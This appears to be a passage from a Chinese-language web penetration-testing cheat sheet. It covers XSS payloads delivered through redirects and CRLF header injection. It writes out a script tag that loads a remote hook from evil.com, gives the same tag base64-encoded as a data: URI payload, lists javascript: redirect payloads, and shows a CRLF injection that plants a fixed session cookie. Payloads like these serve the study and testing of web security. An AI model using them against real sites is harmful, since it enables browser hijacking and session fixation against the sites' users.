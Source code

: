 ```text
<script> s=document.createElement('script'); s.type='text/javascript'; s.src='http://evil.com:3000/hook.js'; document.getElementsByTagName('head')[0].appendChild(s); </script>
```

使用Burp中的Decoder将其编码为base-64，并将其传递给payload：

```text
data:text/html;base64,PHNjcmlwdD4gcz1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTsgcy50eXBlPSd0ZXh0L2phdmFzY3JpcHQnOyBzLnNyYz0naHR0cDovL2V2aWwuY29tOjMwMDAvaG9vay5qcyc7IGRvY3VtZW50LmdldEVsZW1lbnRzQnlUYWdOYW1lKCdoZWFkJylbMF0uYXBwZW5kQ2hpbGQocyk7IDwvc2NyaXB0Pg==
```

other：

```text
http://;URL=javascript:alert('XSS')
data:text/html%3bbase64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20redirect)

### CRLF注入

当你看到请求的参数是这样:

```text
http://inj.example.org/redirect.asp?origin=foo
```

回显是这样：

```text
HTTP/1.1 302 Object moved
Date: Mon, 07 Mar 2016 17:42:46 GMT
Location: account.asp?origin=foo
Connection: close
Content-Length: 121

<head><title>Object moved</title></head>
<body><h1>Object Moved</h1>This object may be found <a HREF="">here</a>.</body>
```

尝试CRLF注射：

```text
http://inj.example.org/redirect.asp?origin=foo%0d%0aSet-Cookie:%20ASPSESSIONIDACCBBTCD=SessionFixed%0d%0a
```

```text
CRLF： %0d%0a
```

```text
https://www.gracefulsecurity.com/http-header-injection/
https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)
https://www.acunetix.com/websitesecurity/crlf-injection/
https://blog.innerht.ml/twitter-crlf-injection/
```
